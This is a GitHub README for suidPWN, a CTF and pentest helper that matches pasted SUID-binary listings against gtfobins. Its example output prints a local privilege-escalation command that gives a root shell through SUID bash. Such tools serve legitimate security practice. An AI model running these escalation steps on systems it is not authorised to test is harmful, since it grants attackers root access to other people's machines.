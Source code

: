 # suidPWN
Speeding up identifying which binaries with a SUID flag may lead to root access

# about
We made this tool while working and different CTF boxes.  
The reason was to fast identify SUID binaries which are vulnerable to an LPE.  
  
Usually when you are checking for SUID binaries on a target you get a lot binaries out of the `find` command. Then you may check every binary you do not know on `gtfobins`. With this approach it is easy to overlook a juicy binary.  
  
To avoid this, you can use suidPWN where you just have to paste your `find` output and it tells you if a binary is on `gtfobins` and vulnerable to privilege escalation.
  
> All the credits for the local privilege escalation techniques go to `gtfobins`. These guys are awesome! <3  

# hints
- update the `binaries` files regulary
- when `suidPWN.py` identified a binary which allows privilege escalation, it scrapes the technique from `gtfobins` and stores it locally, so it does not have to scrape it again next time

# usage

## overview
```bash
python3 suidPWN.py -h
usage: suidPWN.py [-h] [-fd] [-f FILE] [-c]

Identify SUID binaries allowing privilege escalation. Tool made by H4&L0. Credits for LPE techniques to https://gtfobins.github.io/

optional arguments:
  -h, --help            show this help message and exit
  -fd, --find           print find suid binaries command
  -f FILE, --file FILE  read suid files result from file
  -c, --credits         show credits

example usage: python3 suidPWN.py
```

## updating the `binaries` file
```bash
$ python3 get_binaries_from_gtfobins.py
[*] Getting binary list from gtfobins...
[+] Done.
```

## practical example
```bash
$ python3 suidPWN.py
Paste your find output. When you are done press ctrl+d
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/bash
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
^D

[+] bash
[*] Getting bash escalation technique from gtfobins.github.io.
>
>	sudo install -m =xs $(which bash) .
>
>	./bash -p
>
>	source: https://gtfobins.github.io/gtfobins/bash
```

